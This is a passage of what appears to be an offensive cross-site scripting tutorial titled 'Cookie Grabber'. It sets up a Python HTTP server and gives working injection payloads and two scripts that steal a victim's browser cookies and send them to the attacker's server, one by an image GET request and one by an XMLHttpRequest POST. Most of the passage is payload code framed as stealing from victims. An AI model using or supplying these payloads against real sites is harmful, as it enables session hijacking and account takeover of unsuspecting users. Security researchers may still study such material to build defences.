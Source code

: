 ```
python2 -m SimpleHTTPServer 80
```
<br>

<h2>Cookie Grabber</h2>
Well let's start with the basics, we can begin by grabbing victim's cookies. The simplest way for that is to exfiltrate the cookies via a HTTP GET request as a parameter. To grab the cookies we can start with the server we just set up.<br>
Injection:
```
<script src=http://127.0.0.1/cookie.js></script>
```
<br>
Contents of cookie.js:

```
var i=new Image;
i.src="http://127.0.0.1/?"+document.cookie;
```
<br>
![](/img/OffensiveXSS1/firstSteal.PNG)

Looks like it worked! Now let's create a payload that will send the same cookies but this time in a HTTP POST request.
For this we will create and send an XMLHTTPRequest.
Injection:
```
<script src=http://127.0.0.1/postCookie.js></script>
```
<br>
postCookie.js:
```
var url = "http://127.0.0.1";
var body = document.cookie;
xr = new XMLHttpRequest();
xr.open("POST", url, true);
xr.send(body);
```
Understanding our payload line by line, on the very first line we are setting the URL where the data should be POSTed to. Then the body of that request would be the cookie we would like to steal.
